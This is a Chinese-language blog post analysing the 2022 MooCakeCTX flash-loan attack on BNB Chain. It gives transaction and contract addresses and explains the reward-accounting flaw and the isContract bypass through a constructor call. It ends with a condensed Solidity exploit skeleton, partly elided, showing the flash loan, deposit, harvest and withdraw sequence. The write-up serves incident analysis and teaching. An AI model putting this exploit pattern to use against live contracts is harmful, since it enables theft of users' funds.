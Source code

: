 ```yaml
---
layout: post
title:  "MooCakeCTX attack"
date:   2022-11-07 11:45:00 +0800
tags: blockchain flashloan hacker 
color: rgb(53,209,242)
cover: '../assets/papercover/hackbg.png'
subtitle: 'MooCakeCTX attack analyze by yako33!'
---
```


[TOC]

thanks by KRlyx & Deft (beosin security team)

MooCakeCTX合约遭到闪电贷攻击，首位攻击者获得约14万美元，第二位攻击者获利约47万美元，2次攻击手法一致，MooCakeTWT于MooCakeCTX数小时后被攻击。

#### 事件地址信息

攻击交易  
https://bscscan.com/tx/0x03d363462519029cf9a544d44046cad0c7e64c5fb1f2adf5dd5438a9a0d2ec8e

攻击者地址  
0x35700c4a7bd65048f01d6675f09d15771c0facd5

攻击合约  
0x71Ac864f9388eBD8e55a3cdBC501D79C3810467C

被攻击合约地址  
0x489afbAED0Ea796712c9A6d366C16CA3876D8184

#### 漏洞分析
本次攻击主要利用了抵押奖励合约中，抵押和奖励没有时间等相关的限制，并且对于调用者的防范不够全面，导致攻击者可以利用闪电贷放大分红收益，获取MooCakeCTX

#### 攻击流程
1.在攻击交易0x03d363462我们可以看到2022-11-06 09:30:38 PM +UTC时攻击者利用闪电贷发起攻击,攻击者先使用闪电贷借出BUSD并把自己的钱与借入的钱一起换成vBUSD后再兑换成CAKE币用做抵押的准备资金，因为在StrategySyrup中只能使用cake币作为抵押，所以这里全部换成了cake币。而同时准备CTK币，为了smartchef能够抵押调用成功进行的转账。

<ul>
<li  markdown="1" style="list-style-type: none;">
![1]({{site.url}}/screenshot/20221107MooCakeCTX/1.png)
<p></p>
![2]({{site.url}}/screenshot/20221107MooCakeCTX/2.png)
</li>
</ul>


2.而在具体的攻击流程函数调用中我们可以看到当，当攻击者调用deposit函数后立马使用call调用了harvest函数，而这里的调用地址是一个攻击合约并且在最后看到此合约已经自毁。我们可以看到在图中harvest函数代码中，对调用地址是否是EOA地址做了判断，但当发起调用在构造函数的情况下iscontract()可以被绕过从而实现了合约调用，这是此次攻击的核心之一。


<ul>
<li  markdown="1" style="list-style-type: none;">
![3]({{site.url}}/screenshot/20221107MooCakeCTX/3.png)
<p></p>
![4]({{site.url}}/screenshot/20221107MooCakeCTX/4.png)
</li>
</ul>


3.接着就是此次攻击的问题所在，BeefyVault合约中由于奖励计算根据所占的抵押份额计算，其中更新奖励又是按照账户调用harvest函数进行更新，那么在一次更新领取奖励的轮次中，只要所占份额越大，获利越多，所以攻击者用闪电贷放大了收益(而上一次在733天前)，并且绕过了iscontract使用合约调用，值得注意的是这里的depositAll和withdrawAll中与时间没有关系，所以攻击者可以在depoist后立马调用withdrawAll领取奖励。

<ul>
<li  markdown="1" style="list-style-type: none;">
![5]({{site.url}}/screenshot/20221107MooCakeCTX/5.png)
<p></p>
![6]({{site.url}}/screenshot/20221107MooCakeCTX/6.png)
</li>
</ul>

4.攻击者又执行了两次相同手法的攻击，并归还了闪电贷,获利424 BNB(约14万)离场。并且攻击者因为操作步骤出错WBNB没有转出。

<ul>
<li  markdown="1" style="list-style-type: none;">
![7]({{site.url}}/screenshot/20221107MooCakeCTX/7.png)
</li>
</ul>

### MooCakeCTX exp解析
[exp提供者](https://github.com/SunWeb3Sec/DeFiHackLabs)

moocakeCTX exp只包含大体结构,代码省略了部分不关键的地方：
```js
//接口实现+其他接口
interface StrategySyrup {...}

contract Harvest {
    //构造函数中执行来绕过
    constructor(){
        StrategySyrup strategySyrup = StrategySyrup(...);
        strategySyrup.harvest();
    }
}

contract exp {
    function Exploit() public {
        //交换一点CTK
        WBNBToCTK();
        CTK.transfer(address(SmartChef), CTK.balanceOf(address(this)));
        //执行dodo的闪电贷
        DVM(dodo).flashLoan(0, 400_000 * 1e18, address(this), new bytes(1));
    }

    //回调函数中执行逻辑
    function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external{
        address [] memory cTokens = new address[](2);
        cTokens[0] = address(vBUSD);
        cTokens[1] = address(vCAKE);
        //控制器token的格式数组
        unitroller.enterMarkets(cTokens);
        BUSD.approve(address(vBUSD), type(uint).max);
        //mintVBUSD
        vBUSD.mint(BUSD.balanceOf(address(this)));
        //借VCake
        vCAKE.borrow(50_000 * 1e18);
        CAKE.approve(address(beefyVault), type(uint).max);
        //viper合约中质押所有
        beefyVault.depositAll();
        //初始化并且执行，绕过。
        Harvest harvest = new Harvest();
        //取走
        beefyVault.withdrawAll();
        //偿还
        CAKE.approve(address(vCAKE), type(uint).max);
        vCAKE.repayBorrow(50_000 * 1e18);
        vBUSD.redeemUnderlying(400_000 * 1e18);
        //归还闪电贷
        BUSD.transfer(dodo, 400_000 * 1e18);
    }
}

```